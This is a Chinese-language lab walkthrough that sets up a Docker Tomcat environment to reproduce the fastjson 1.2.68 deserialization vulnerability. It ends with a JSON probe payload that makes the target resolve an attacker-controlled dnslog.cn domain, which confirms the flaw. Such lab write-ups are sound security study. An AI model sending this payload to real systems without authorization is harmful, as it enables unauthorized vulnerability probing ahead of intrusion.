fastjson 1.2.68反序列化导致任意命令执行漏洞

拉取docker镜像

在kali下载docker

#换源

vim /etc/apt/sources.list

#中科大

deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib

deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib

#更新源

apt update

安装docker

apt install -y docker.io

#查询docker版本，验证是否安装成功，成功后会出现对应的版本号

docker --version



配置国内镜像加速器

sudo vim /etc/docker/daemon.json

#添加内容

{

"registry-mirrors": [

"https://docker.1ms.run",

"https://hub.rat.dev",

"https://docker.1panel.live"

]

}

#刷新加速器

sudo systemctl daemon-reload

#重启docker

sudo systemctl restart docker

利用docker运行靶场环境

#拉取镜像，成功后该镜像会保存在本地

docker pull luiscortes/tomcat8.5-ora8jdk-alpine

#启动环境，实际上是利用这个镜像启动一个容器

docker run --name tomcat -p 9090:8080 -d luiscortes/tomcat8.5-ora8jdk-alpine



搭建fastjson

访问：http://192.168.214.138:9090



进入docker创建java文件夹

#查看docker

docker ps



复制一下：5e918b902fd1  填到下面红色字样处替换成你自己的

docker exec -it 5e918b902fd1 /bin/bash



#创建java文件夹

mkdir /usr/java

exit

准备好以下文件：



首先我们到已经下载好各种文件的目录下，然后依次将文件从主机中拷贝到docker中，其中我们可以将fastjson_rce.tar.gz提前解压得到fastjson文件夹

#解压fastjson

tar -xzvf fastjson_rce.tar.gz

docker cp fastjson tomcat:/usr/local/tomcat/webapps/

docker cp jdk-8u201-linux-x64.tar.gz tomcat:/usr/java/

docker cp fastjson-1.2.68.jar tomcat:/usr/local/tomcat/webapps/fastjson/WEB-INF/lib/



继续配置docker环境

#启动容器

docker start 5e918b902fd1

docker exec -it 5e918b902fd1 /bin/bash

#解压jkd压缩包

tar -xzvf /usr/java/jdk-8u201-linux-x64.tar.gz -C /usr/java/



编辑pox.xml文件，修改成自己对应的fastjson版本，这里我修改成1.2.68，然后退出保存（ESC→：wq）

vi /usr/local/tomcat/webapps/fastjson/META-INF/maven/com.vulhub.fastjson/fastjson/pom.xml



漏洞利用

访问：http://192.168.214.138:9090/fastjson/  用bp抓包



看见Hello World字样说明环境搭建成功



访问Dnslog：http://www.dnslog.cn/



gacwad.dnslog.cn  用于替换后面payload红色部分

尝试检验一下是否存在漏洞

{"x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"gacwad.dnslog.cn"}}}

注意修改为POST发包，并添加Content-Type

Content-Type:application/json



回到刚刚dnslog网页



利用成功
